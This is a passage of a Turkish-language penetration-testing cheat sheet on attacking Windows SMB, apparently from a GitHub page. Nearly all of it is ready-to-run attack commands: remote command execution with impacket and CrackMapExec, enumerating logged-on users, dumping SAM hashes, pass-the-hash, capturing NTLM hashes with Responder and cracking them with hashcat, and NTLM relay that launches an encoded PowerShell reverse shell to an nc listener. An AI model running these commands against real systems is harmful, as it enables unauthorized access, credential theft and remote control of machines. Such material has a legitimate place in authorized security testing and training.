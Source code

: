 ```
impacket-psexec administrator:'Password123!'@10.10.10.10
```

Aynı seçenekler impacket-smbexec ve impacket-atexec için de geçerlidir.


## 11-CrackMapExec ile SMBexec Yöntemi Kullanarak Uzaktan Komut Çalıştırma

```
crackmapexec smb 10.10.10.10 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

Not: Eğer --exec-metodu tanımlanmamışsa, CrackMapExec atexec metodunu çalıştırmayı deneyecektir, eğer başarısız olursa --exec-metodu smbexec'i belirtmeyi deneyebilirsiniz.

## 12-Logged-on Oturum Açmış Kullanıcıları Numaralandırma (crackmapexec)

```
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123!' --loggedon-users
```


## 13-SAM Veritabanından Hash'leri Çıkarma (crackmapexec)

```
crackmapexec smb 10.10.10.10 -u administrator -p 'Password123!' --sam
```

## 14-Pass-the-Hash (PtH) (crackmapexec)

```
crackmapexec smb 10.10.10.10 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

```
responder -I <interface name>
```

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```


## 15- NTLM Relay Attacks

İlk olarak, responder yapılandırma dosyamızda (/etc/responder/Responder.conf) SMB'yi KAPALI olarak ayarlamamız gerekir.

```
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```


```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.10
```

### 15.1-veya reverse shell

```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.10 -c 'powershell -e JABjAGwAkA..SNIP..GMAawAyACA'
```

```
nc -lvnp 9001
```

